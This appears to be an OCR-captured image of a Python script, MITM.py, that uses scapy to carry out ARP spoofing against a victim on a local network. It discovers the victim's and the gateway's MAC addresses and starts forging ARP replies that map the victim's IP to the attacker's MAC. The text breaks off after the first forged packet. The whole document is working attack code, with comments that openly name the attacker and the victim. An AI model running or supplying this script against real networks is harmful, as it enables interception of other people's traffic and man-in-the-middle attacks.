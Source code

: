 \begin{verbatim}
#!/usr/bin/python3
#running command: python MITM.py victimIP

import sys  #for command line argument
import time
from random import randint
from scapy.all import *
from scapy.layers.inet import *
import scapy
import socket
import uuid 

def get_ip():
    s = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
    try:
        # doesn't even have to be reachable
        s.connect(('192.255.255.255', 1))
        IP = s.getsockname()[0]
    except:
        IP = '127.0.0.1'
    finally:
        s.close()
    return IP

#==============================================================
# Collect Necessary Information 
#==============================================================
my_ip = get_ip()
my_mac = str(':'.join(['{:02x}'.format((uuid.getnode() >>
            ele) & 0xff) for ele in range(0,8*6,8)][::-1])) 

print("my_ip : " + my_ip)
print("my_mac : " + my_mac)

victim_ip = sys.argv[1]

network_parts = str(victim_ip).split(".")
gateway_ip = network_parts[0]+ "." + network_parts[1] +
                "." + network_parts[2] + ".1" 

arp_packet = ARP(op=ARP.who_has, #request mac
	psrc=my_ip,              #request to reply to attacker
	pdst=victim_ip)	  #IP of the mac attacker needs
result = sr1(arp_packet)         #reply packet
victim_mac = result[ARP].hwsrc   #mac of victim

print("victim_ip : " + str(victim_ip))
print("victim_mac : " + str(victim_mac))

arp_packet = ARP(op=ARP.who_has, #request mac
	psrc=my_ip,              #request to reply to attacker
	pdst=gateway_ip)         #IP of the mac attacker needs
result = sr1(arp_packet)         #reply packet
gateway_mac = result[ARP].hwsrc  #mac of gateway

print("gateway_ip : " + str(gateway_ip))
print("gateway_mac : " + str(gateway_mac))

print()

#==============================================================
# Create ARP Spoofing Packets
#==============================================================
reply1 = ARP(op=ARP.is_at,       #forging arp reply
	hwsrc=my_mac,            #attacker's mac as victim's
	psrc=victim_ip,          #victim's IP to attacker's mac
	hwdst=gateway_mac,       #telling gateway
	pdst=gateway_ip)         #gateway IP


\end{verbatim}
